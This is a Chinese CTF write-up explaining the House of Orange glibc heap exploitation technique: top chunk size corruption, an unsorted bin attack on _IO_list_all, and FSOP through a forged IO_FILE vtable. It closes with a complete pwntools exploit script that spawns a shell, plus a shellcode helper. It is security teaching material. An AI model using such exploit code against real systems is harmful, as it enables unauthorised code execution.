# [ctf-PWN] house of orange 详细解析-先知社区

> **来源**: https://xz.aliyun.com/news/18606  
> **文章ID**: 18606

---

**hosue of orange攻击流程分析(2.23为例)**

## ~~没什么用的前言~~

又一次pwn复建。。。

正好来分析一下当年~~*(去年)*~~学的囫囵吞枣的这个 [IO利用经典之作]——house of orange

house of orange整体上可以概括为：强行释放top chunk产生bin + unsortedbin attack篡改IO + FSOP

核心点个人认为其实应该是篡改top chunk的size使其进入unsortedbin这点~~(虽然高版本以及现在的pwn题用的不是很多就是了)~~，但是因为这个手法大概率是很多萌新学习的第一个涉及IO的手法，所以IO部分的利用其实也蛮重要

以hitcon的house of orange为例

题目本身的分析就略过了，就是一个缺了 free 的菜单题，增和改都有一个次数限制，以及改和查都只能操作最后一个申请的chunk，大体上就是以这种方法限制了低版本其他的打法，只能通过orange来打

## top chunk利用部分

因为house of orange主要面对的是“没有free”的情况，所以第一步自然是寻找能够产生free chunk的手段

这个手段就是**释放top chunk**

一个正常大小的top chunk大小大概会在0x20000以上，直接释放的话肯定是不行的，因为会被判断为大内存块特殊处理，而不是交由ptmalloc管理。所以就要先设法削减top chunk的size，一般来说至少需要抹到只剩3位，虽然理论上讲通过申请chunk来削减不是不可能，但是更推荐的方法还是想办法去篡改

一般篡改的方法就是 **相邻chunk溢出修改**，或者题目给出了**任意地址写某些数字的机会**，这篇文章以溢出修改为例



一般像这样布局后用黄色chunk溢出修改红框位置的topchunk size就可以了

比如在这道题中：

```
add(0x10, 'ink');
edit(0x40, padding(0x18) + p64(0x21) +p64(0x0000002000000001)+p64(0)*2+p64(0xfa1))
```

改完就会像这样：

然后就是真正的关键点——**伪造size的大小**

因为我们的目的是将topchunk置入unsortedbin，所以size的大小就需要在0x90~0x1000(有tcache则还需要大于0x400)范围内

但同时还要满足另一个要求——满足topchunk size的页对齐

这点简单理解的话就记住修改规律就可以了：如上图中top chunk修改前是**0x20d51**，那么修改后的size就需要保留后三位**0xd51**(`其实无论多大都是保留后三位`)，也就是说size的变化只能以0x1000为倍数变化，比如再变成0x1**d51**、0x2**d51**、0x10**d51** *(对于防止因topchunk崩溃)* 都是没问题的。当然结合需要让size遭篡改后的topchunk进入unsortedbin这点，那么更好的方法是单纯保留后三位就是了。

###### unsortedbin attack部分

在成功让topchunk进入unsortedbin后就可以进行unsortedbin attack了

这个漏洞对应的代码：

即取unsortedbin时的脱链操作会将 victim->bk 的 fd 指针写为arena地址 *(准确的说是这个unsortedbin所在的那枚arena->bins链头)*

> 这个利用我们一般称之为 ”任意地址写libc地址/极大数“
>
> 这是因为这两点很多时候派不太上用场，写libc地址因为太过固定且刁钻，只能写一个arena内部的地址，很多时候意义不大\*(当然在这个经典的house of orange中是通过让arena与IO\_file的巧妙重叠发挥了作用)\*；至于写极大数这个角度，据我了解如果抛开堆栈结合(改len打栈溢出)有且只有一种 结合fastbin攻击的利用方式，就是篡改global\_max\_fast常量，也就是house of corrosion这个东西

比如我们就来试试把手上刚造出来的unsortedbin的bk篡改成 IO\_list\_all 附近试试

> 当然在这之前要先拿到libc地址，这道题目中的show是使用了 %s ，所以可以通过切割大的unsortedbin并连带泄露被切割出的chunk残留的bk指针 (堆地址也是同理，可以注意到这里其实fd/bk\_nextsize位置也有堆地址)
>
> 像这样

```
add(0x400, 'i'*8)
show()
ru('i'*8)
libc_base = uu64(rv(6)) - 0x3c5188
```

只需要将unsortedbin->bk的fd 写为 -0x10 即可

```
save_old_chunk = p64(0) + p64(0x21) + p64(0x0000002000000001) + p64(0)*2 + p64(0xaf1)
payload = padding(0x400) + save_old_chunk + p64(0) + p64(io_list_all-0x10)
edit(len(payload), payload)
debug("b *$rebase(0x13d0)")
add(0x400, 'ink')
```

那么接下来就要分析这部分真正的重点了(我在瞎jb写些什么)

我个人感觉orange中最精妙的就是这点：**怎样控制IO结构体的内容？**

前面也看到了，我们仅仅是将IO\_list\_all这个指针常量内容改为arena而已\*(因为IO\_list\_all会作为IO\_file结构体链表的链头，所以控制了它一定程度上就相当于是控制了IO\_file结构体了)\*，但我们却没办法修改arena的内容

*那怎么办呢？* 还有什么办法能修改IO\_file的内容或者**让IO\_file直接被**我们能控制的东西**替代**呢

那么就引出了很多IO打法中都会采用的一种思路——用堆块指针去覆盖存放IO\_file指针的常量，比如IO\_stdout/IO\_stdin\_等

而在orange中则稍微麻烦一点点，我们覆盖的是 IO\_file 的内部：**IO\_file有一个 chain 指针，用于链接其他的 IO\_file**，比如常态下 stderr的chain是指向stdout的



*——但是前面不是也说了arena内部没法改吗，这里劫持IO\_list\_all后 IO\_file->chain 对应的似乎是arena内部某个位置？*

*——好问题，对应的是哪呢*

大概是这个地方：



这个位置实际上是 存放unsortebin、largebin、smallbin 链头的

那么就是说有这样一种机会：**让 IO\_list\_all 被 arena ”夺舍“后的chain变成一个堆指针**，那样一来就可以**间接的控制住IO\_file**了，只要触发一些会涉及所有IO\_file的函数就可以触发我们在chunk中布置的fake IO\_file了

**实际操作中和 arena->chain 对应的位置大概是存放0x60大小的smallbin的链表的位置， 因此我们在最后的攻击之前就应该将unsortedbin的大小设置为0x60，以保证它在被整理时可以顺利放到正确的位置上**

```
payload=b'f'*0x400 #填充前面的没什么关系的chunk
payload+=p64(0)+p64(0x21)#填充写入点与受攻击chunk间隔的地方
# payload+=p64(sys_addr)+p64(0)#在劫持后的 table 里放置
payload+=b'/bin/sh\x00'+p64(0x61)#这个地方就是受攻击的chunk
#第一个8字节在最终的宏调用中会是第一参数，所以要设置为bin/sh；
#第二个8字节则是第二部分讲解中的：要设置为0x60从而让其进入smallbins时与 IO_file->chain 对上轴
payload+=p64(libc_base+0x3c4b78)+p64(io_list_all-0x10)
#fd位置摄制成arena地址让unsortebin整理进smallbin的行为顺利产生
#bk位置写为IO_list_all附近进行攻击
```

###### FSOP部分

> FSOP—— File Stream Oriented Programming 即面向文件流编程
>
> 核心思想是通过各种手段劫持各种IO\_file的内容，从而在IO\_file触发各种宏调用执行流被攻击者控制

house of orange中使用的fsop是针对低版本 IO\_file 中的 vtable指针 的攻击

**vtable简单说是一个 IO\_file 专用的函数表，当libc打算调用一些 IO函数 时就会从vtable中取出IO函数指针并进行调用**

但是显然，如果IO\_file的内容被控制，也就是说**vtable会被控制**，那么libc使用的**函数表**也就完全被我们控制了，接下去只需要在伪造的函数表的合适位置写好system地址并设法传参就可以了

> 之所以这里提了一下是低版本，是因为vtable在高版本加入了地址检查，进行宏调用前会先检查vtable的地址合不合理
>
> 
>
> (这个检查的详细流程和机制我也没仔细看过，反正堆栈、elf内存段上的伪造vtable肯定是过不了检查的，所以这个方法基本上就完全被ban了)

前面也说到了，我们要做的不是直接控制IO\_list\_all指向的第一个IO\_file结构体，而是通过修改chain去控制第二个IO\_file，我们可以直接在chunk里伪造IO\_file，然后将其指针写到chain上

至于IO\_file怎样伪造，最推荐的方法是根据结构体关键变量在结构体内的偏移地址去伪造要写到堆里的payload，一般在源码中就可以看到：

但是显然这样看有些麻烦 *(在记不住里面的各种数据类型时)*

我个人常用的方法是直接在调试中获取：  


比如像这样就可以知道chain的偏移是 +0x68 的位置

vtable是在 +0xd8 的位置

那么就可以在脚本中写：

```
fake_IO_file = flat({
    0x68: p64(xxx), #chain -> 伪造的IO_file的地址
    0xd8: p64(xxx), #vtable -> 伪造的table的地址
    })
```

知道怎样伪造IO\_file之后，就可以分析FSOP的原理了：

在orange中，我们是通过触发malloc的报错，产生这样的调用链：  
malloc(10) -> libc\_messege -> abort -> \_IO\_flush\_all\_lockp -> **IO\_OVERFLOW**

这里面的最后一个步骤就是前面多次提到的**宏调用**了

在C语言源码里大概是这样：



> 这里也可以注意下传入的第一个参数是什么——fp指针，也就是说劫持为system的同时还可以将binsh也传递进去，方式自然就是写到伪造IO\_file的第一个八字节处了

在汇编则能看到是这样：  


> 这里rax就是取到的当前使用的fp的vtable指针，在攻击中就会是被我们劫持控制的伪造vtable地址了

这下读者应该就能多少理解为什么这玩意可以被劫持了吧——它的调用并不是写死的 call xxx ，而是call一个放置在别的地方的函数指针，所以才会产生被劫持的机会

那么接下来就需要看看IO\_flush\_all\_lockup的全貌了，不难想到：如果它使用的fp是一个由攻击者编写的结构体，那当然不一定可以执行到 IO\_OVERFLOW 的位置，在那之前会有许多check



可以看到，整体上是一个for循环，会从IO\_list\_all开始遍历整个IO\_file链表，只要IO\_file内部内容复合条件就会调用 OVERFLOW

所以根据源码的检查条件，我们可以总结出以下攻击要求：

* 假设**伪造的IO\_file**结构体为**堆地址B**(也就是跟随arena被放到chain位置的那个chunk)
* 作为**伪造vtable**的**堆地址C** (其实可以直接使用堆B内部的位置，也就是B±N)
* **fp->mode(B+0xc0) <= 0**
* **fp->****IO\_write\_ptr(B+0x28) > fp->\_IO\_write\_base(B+0x20)**
* \*\*vtable(B+0xd8)\*\*设置为我们能控制内存块的地址 (堆地址)
* **vtable->IO\_OVERFLOW(C+0x18)** 设置为system地址
* **fp->flags(B+0x0)** 设置为binsh地址

所以我们可以把伪造IO的mode设置为0，IO\_write\_ptr写为1，IO\_write\_base写为0

> 用前面讲过的方法可以获取到上面三个变量的偏移地址

```
fake_IO_addr = leak_heap + 0x440
vtable_addr = fake_IO_addr + 0x200 #准备将+0x200位置作为table

fake_IO_file = flat({
    0: '/bin/sh\x00', 
    0x8: p64(0x61),
    0x10: p64(libc_base+0x3c4b78)+p64(io_list_all-0x10),
    0x20: p64(0),
    0x28: p64(1),
    0xd8: p64(vtable_addr), #vtable -> 伪造的table的地址
    0x200+0x20: p64(sys_addr)
    }, filler=b'\x00')
payload=b'f'*0x400 + p64(0) + p64(0x21) + padding(0x10) + fake_IO_file
edit(0x1000, payload)

sla('Your choice : ',str(1))
```

对于这道题的完整exp：

```
'''
pwn_attack_ink
'''
import sys
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
binary = './hitcon'
libc = './libc.so.6'
host, port = "node5.buuoj.cn:29722".split(":")

print(('\033[31;40mremote\033[0m: (r)
'
    '\033[32;40mprocess\033[0m: (p)'))

bpt = [
"*$rebase(0x13d0)",#menu
]

if sys.argv[1] == 'r':
    r = remote(host, int(port))
elif sys.argv[1] == 'p':
    r = process(binary)
elif sys.argv[1] == 'pg':
    r = process(binary)
    gdb.attach(r, 'b '+bpt[0])

libc = ELF(libc)

default = 9999
sd      = lambda data                     : r.send(data)
sa      = lambda delim, data              : r.sendafter(delim, data)
sl      = lambda data                     : r.sendline(data)
sla     = lambda delim, data              : r.sendlineafter(delim, data)
rv      = lambda numb=4096                : r.recv(numb)
rl      = lambda time=default             : r.recvline(timeout=time)
ru      = lambda delims, time=default     : r.recvuntil(delims,timeout=time)
rpu     = lambda delims, time=default     : r.recvuntil(delims,timeout=time,drop=True)
uu32    = lambda data                     : u32(data.ljust(4, b'\x00'))
uu64    = lambda data                     : u64(data.ljust(8, b'\x00'))
uuntil  = lambda data, count=-6           : uu64(ru(data)[count:])
# padding = lambda length                   : b'ink' * (length // 3) + b'I' * (length % 3)
padding = lambda length, filler=0         : b'ink' * (length // 3) + b'I' * (length % 3) if filler == 0 else filler * length
lg      = lambda var_name                 : log.success(f"{var_name} ：0x{globals()[var_name]:x}")
prl     = lambda var_name                 : print(len(var_name))
debug   = lambda command=''               : gdb.attach(r,command)
it      = lambda                          : r.interactive()
short_sc= lambda bits=64                  : b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05' if bits==64 else b'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'

def add(size,content):
    sla('Your choice : ',str(1))
    sla('Length of name :',str(size))
    sa('Name :',content)
    sla('Price of Orange:',str(1))
    sla('Color of Orange:',str(2))
def edit(size,content):
    sla('Your choice : ',str(3))
    sla('Length of name :',str(size))
    sa('Name:',content)
    sla('Price of Orange:',str(1))
    sla('Color of Orange:',str(2))
def show():
    sla('Your choice : ',str(2))

add(0x10, 'ink');
edit(0x40, padding(0x18) + p64(0x21) +p64(0x0000002000000001)+p64(0)*2+p64(0xfa1))
add(0x1000, padding(8))

add(0x400, 'i'*8)
show()
ru('i'*8)
libc_base = uu64(rv(6)) - 0x3c5188
lg("libc_base")

io_list_all=libc_base+libc.symbols['_IO_list_all']
sys_addr=libc_base+libc.symbols['system']

edit(0x20,'e'*0x10)

show()
ru('e'*0x10)
leak_heap=u64(rv(6).ljust(8,b'\x00'))

lg("leak_heap")
lg("libc_base")

fake_IO_addr = leak_heap + 0x440
vtable_addr = fake_IO_addr + 0x200 #准备将+0x200位置作为table

fake_IO_file = flat({
    0: '/bin/sh\x00', 
    0x8: p64(0x61),
    0x10: p64(libc_base+0x3c4b78)+p64(io_list_all-0x10),
    0x20: p64(0),
    0x28: p64(1),
    0xd8: p64(vtable_addr), #vtable -> 伪造的table的地址
    0x200+0x20: p64(sys_addr)
    }, filler=b'\x00')
payload=b'f'*0x400 + p64(0) + p64(0x21) + padding(0x10) + fake_IO_file
edit(0x1000, payload)

sla('Your choice : ',str(1))

it()
```
